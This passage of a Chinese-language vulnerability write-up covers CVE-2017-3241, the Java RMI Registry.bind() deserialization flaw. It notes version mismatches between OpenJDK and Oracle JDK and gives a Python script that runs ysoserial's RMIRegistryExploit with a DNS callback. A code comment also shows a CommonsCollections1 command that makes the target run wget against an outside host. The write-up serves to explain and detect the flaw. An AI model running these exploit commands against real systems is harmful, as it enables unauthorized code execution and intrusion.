 *![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599014539440-94a09058-600c-4ce6-952f-fb3fd2a434fa.png)*

由于src.zip中不包含sun目录下的源码，我们无法直接阅读sun.rmi.registry这部分关键代码，只能看Idea反编译后的代码或者找OpenJDK

对应部分的源码（不能保证它们代码的一致性）。

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1598406315353-0244ce35-e3c1-4a41-b409-f8171ca53f1d.png)

### 查找OpenJDK对应代码

访问 http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/tags，尝试通过tags来缩小查找范围，但并未在这些

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599011147673-ef7a6b81-379f-409b-826c-c569f80f9d05.png)



通过[搜索RegistryImpl_Stub](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/log?rev=RegistryImpl_Stub) ，找到jdk8u141-b10，发现OpenJDK中，在这个版本中才新建了个RegistryImpl_Stub 文件。**可见OpenJDK的Tag和OracleJDK的版本并不对应**。很多文章中描述漏洞所写的JDK版本都是OpenJDK版本，而非Oracle JDK的版本，所以阅读的时候得注意区分了。

## 批量检测

### 检测脚本

为了更好地检测出问题，我们使用URLDNS这个gadget进行初筛，因为它不受JDK版本限制，也不需要额外的Gadget依赖包。然后再使用其他Gadget进行利用尝试。

```
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'
import subprocess

'''
Java RMI Registry.bind() 反序列化代码执行漏洞
注意：URLDNS这个gadget也只能检测8u121以下的版本。更完善的脚本见后续章节
'''

def poc(ip, port="1099"):
    try:
        ys_filepath = r'D:\ser\ysoserial-0.0.5.jar'
      # D:\ser>java -cp ysoserial-0.0.5.jar ysoserial.exploit.RMIRegistryExploit 10.203.20.57 1099 CommonsCollections1 "wget rmiyso.bit.0y0.link"
        popen = subprocess.Popen(["java", '-cp', ys_filepath, "ysoserial.exploit.RMIRegistryExploit",ip,port,"URLDNS", "http://rmi.{0}.bit.0y0.link".format(ip)],
                                 stdout=subprocess.PIPE)
        output = popen.stdout.read()
        print(output)
    except Exception as e:
        print(e)

if __name__ == "__main__":
  print(poc("10.203.20.57"))
```
